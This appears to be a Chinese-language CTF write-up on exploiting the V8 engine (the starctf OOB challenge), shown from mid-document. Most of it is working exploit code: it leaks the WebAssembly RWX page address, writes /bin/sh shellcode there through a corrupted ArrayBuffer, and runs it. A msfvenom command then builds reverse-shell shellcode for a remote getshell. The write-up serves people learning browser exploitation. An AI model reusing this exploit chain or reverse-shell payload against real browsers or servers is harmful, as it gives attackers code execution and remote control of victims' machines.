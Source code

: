 根据上述寻址过程可以寻找rwx段地址，代码如下：

```js
//leak addr
var f_addr = addressOf(f);
console.log("f addr: 0x"+hex(f_addr));
var shared_info_addr = read64(f_addr+0x18n)-0x1n;
var wasm_exported_function = read64(shared_info_addr+0x8n)-0x1n;
var instance_addr = read64(wasm_exported_function+0x10n)-0x1n;
var rwx_page_addr = read64(instance_addr+0x88n);
```

### getshell

利用任意地址写把sc写到这个段，之后通过调用wasm函数获取shell

```js
var wasmCode = new Uint8Array([0,97,115,109,1,0,0,0,1,133,128,128,128,0,1,96,0,1,127,3,130,128,128,128,0,1,0,4,132,128,128,128,0,1,112,0,0,5,131,128,128,128,0,1,0,1,6,129,128,128,128,0,0,7,145,128,128,128,0,2,6,109,101,109,111,114,121,2,0,4,109,97,105,110,0,0,10,138,128,128,128,0,1,132,128,128,128,0,0,65,42,11]);
var wasmModule = new WebAssembly.Module(wasmCode);
var wasmInstance = new WebAssembly.Instance(wasmModule, {});
var f = wasmInstance.exports.main;
//leak addr
var f_addr = addressOf(f);
console.log("f addr: 0x"+hex(f_addr));
var shared_info_addr = read64(f_addr+0x18n)-0x1n;
var wasm_exported_function = read64(shared_info_addr+0x8n)-0x1n;
var instance_addr = read64(wasm_exported_function+0x10n)-0x1n;
var rwx_page_addr = read64(instance_addr+0x88n);
//write sc
shellcode = [
0x91969dd1bb48c031n,
0x53dbf748ff978cd0n,
0xb05e545752995f54n,
0x50f3bn
];
var data_buf = new ArrayBuffer(128);
var data_view = new DataView(data_buf);
var buf_backing_store_addr = addressOf(data_buf) + 0x20n;
write64(buf_backing_store_addr, rwx_page_addr);
for(var i = 0; i < shellcode.length; i++)
    data_view.setBigUint64(8*i, shellcode[i], true);
f();
```

## 远程getshell

在kali上使用msfvenom生成反弹shell的shellcode

```bash
msfvenom -p linux/x64/shell_reverse_tcp LHOST=you_ip_addr LPORT=3389 -f python -o ~/Desktop/shellcode.txt
```

在服务上监听3389端口本地执行wasm.js，成功获取到shell

![shell](./1.png)

## 参考


[e3pem](https://e3pem.github.io/2019/07/31/browser/%E6%B5%8F%E8%A7%88%E5%99%A8%E5%85%A5%E9%97%A8%E4%B9%8Bstarctf-OOB/)


[walkerfuz](https://www.freebuf.com/vuls/203721.html)
